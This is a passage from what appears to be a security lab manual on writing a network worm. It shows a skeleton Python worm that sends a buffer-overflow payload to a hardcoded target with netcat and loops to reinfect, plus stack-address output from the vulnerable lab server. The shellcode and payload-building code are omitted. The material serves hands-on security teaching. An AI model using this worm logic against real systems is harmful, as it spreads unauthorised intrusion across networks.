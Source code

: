 \begin{lstlisting}[caption={The attack code: \texttt{worm.py}}, language=Python] 
shellcode= (
   ... code omitted (will be discussed later) ...
).encode('latin-1')


# Find the next victim (return an IP address)
def getNextTarget():
    return '10.151.0.71'                                     (*@\lineone@*) 

# Create the badfile (the malicious payload)
def createBadfile():
    ... code omitted (will be discussed later) ...


############################################################
print("The worm has arrived on this host ^_^", flush=True)

# Run the ping program in the background 
subprocess.Popen(["ping -q -i2 1.2.3.4"], shell=True)        (*@\linetwo@*) 

# Create the badfile
createBadfile() 

while True:
    targetIP = getNextTarget()

    # Send the malicious payload (smaller payload) to the target host
    # This is done via exploiting the server's vulnerability
    # It will block until the command exits
    subprocess.run([f"cat badfile | nc -w3 {targetIP} 9090"], 
                     shell=True, stdin=None, close_fds=True)

    # Sleep for 1000 seconds before attacking another host
    # We will reduce this value later
    time.sleep(1000) 
\end{lstlisting}



\subsection{Creating the badfile} 

Let's first send a benign message to our target server.
We will see the following messages printed out by the 
target container (the actual messages you see may be different).
The results are from the AMD machine; the ones for the Apple
Silicon machines are similar.

\begin{lstlisting}
// On the host machine 
$ echo hello | nc -w2 10.151.0.71 9090

// Messages printed out by the container
as151h-host_0-10.151.0.71  | Starting stack
as151h-host_0-10.151.0.71  | Input size: 6
as151h-host_0-10.151.0.71  | Frame Pointer (ebp) inside bof(): 0xffffd5f8  (*@\ding{80}@*)
as151h-host_0-10.151.0.71  | Buffer's address inside bof():    0xffffd588  (*@\ding{80}@*)
as151h-host_0-10.151.0.71  | ==== Returned Properly ====
\end{lstlisting}
 
